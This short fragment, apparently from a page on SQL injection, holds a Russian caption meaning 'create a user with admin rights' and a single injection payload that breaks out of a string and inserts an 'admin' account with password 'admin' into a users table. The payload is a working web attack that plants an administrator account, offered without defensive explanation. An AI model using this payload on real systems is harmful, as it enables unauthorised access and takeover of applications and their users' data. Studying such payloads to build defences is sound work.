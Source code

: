 Создаем пользователя с правами админа 
'; INSERT INTO users (username, type, password) VALUES ('admin', 'admin', 'admin'); --